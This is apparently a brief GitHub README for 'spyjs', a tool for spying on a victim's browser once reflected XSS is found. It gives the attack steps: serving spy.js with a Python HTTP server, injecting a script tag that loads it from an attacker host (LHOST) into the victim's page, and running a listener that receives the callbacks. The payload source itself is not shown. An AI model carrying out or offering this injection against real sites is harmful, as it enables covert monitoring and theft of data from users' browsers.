 # spyjs
Simple js sample to spy on browser, when reflacted xss found


Start server to serve js
```bash
python3 -m http.server 8080
```

Do on victim
```js
 <script src="http://LHOST:lport/spy.js"></script>
```

start listener
```bash
python3 listen.py 
```

# when triggered

![Screenshot](/imgs/callbk.png)

![Screenshot](/imgs/recv.png)




